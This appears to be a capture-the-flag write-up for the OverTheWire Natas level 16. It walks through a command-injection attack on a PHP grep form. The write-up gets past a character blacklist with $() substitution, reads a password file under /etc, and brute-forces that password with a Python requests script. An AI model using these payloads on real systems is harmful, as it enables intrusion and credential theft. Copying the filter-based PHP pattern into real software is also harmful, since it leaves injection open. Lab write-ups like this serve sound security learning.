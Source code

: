 # Natas 16 -> 17

```
http://natas16.natas.labs.overthewire.org
```

```
Username: natas16
```

Similar to a `natas9`, we have a form to look for words.

```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
```

This time we can't pass certain chars. And what's interesting in the set of characters they don't allow is the backtick.  
In other words, they don't want us to pass commands to `$key`, but there's another way to write commands `$()`.  
Since neither of `$()` appear in the `preg_match` regexp, we know that we can use that but we need to execute a command that would return something, otherwise the output would return empty.

```
?needle=$(echo A)
```

```
African
Africans
Allah
Allah's
American
...
```

Good :-)  
Now we need to think a way to obtain the content of `/etc/natas_webpass/natas17`:  
`cat` won't work because it'll return the content and the `grep` command will end up like `grep -i "{password}" dictionary.txt` and won't return any result... so, what about `grep` inside `grep` *insert xzibit joke here*.

```
?needle=$(grep a /etc/natas_webpass/natas17)
```

```
African
Africans
Allah
Allah's
American
...
```

Great, it works too. But to be more precise, we should look for the *first* character in the password file, so:

```
?needle=$(grep ^a.* /etc/natas_webpass/natas17)
```

No result. That's good! That means nothing matched in the password file so the `grep` command ended up like `grep "" dictionary.txt`. Well, seems like we need to *bruteforce* our way into `natas17` again.  
So our regexp to use in the `grep` inside `grep` has to look something like this:  

```
^{char}.*
```

`^` means *match lines starting with...* and `.*` matches all.
Since matching something will return something random from `dictionary.txt`, let's append an unique word from this dict file, like `zigzagging`.  

```
$(grep ^{char}.* /etc/natas_webpass/natas17)zigzagging
```

If prints `zigzagging` it means `grep` didn't match anything, if doesn't print anything, means it matched something.


Let's reuse the same script of the previous level.

```python
#!/usr/bin/env python

import sys
import string
import requests

url = "http://natas16.natas.labs.overthewire.org/"
http_user = "natas16"
http_pass = ""

bf_passwd = ""
bf_dict = string.ascii_letters + string.digits

while len(bf_passwd) != 32:
    for char in bf_dict:
        r = requests.get(url,
                         params={
                             'needle': '$(grep ^{}.* /etc/natas_webpass/natas17)zigzagging'.format(bf_passwd + char)
                         },
                         auth=(http_user, http_pass))
        sys.stdout.write("\rTrying: {} | Password: {}".format(char, bf_passwd))
        sys.stdout.flush()
        if "zigzagging" not in r.text:
             bf_passwd += char
             sys.stdout.write("\rMatch: {} | Password: {}".format(char, bf_passwd))
             sys.stdout.flush()
             break

print "\rPassword: {}".format(bf_passwd)
```


* php
* python
* preg_match
* grep
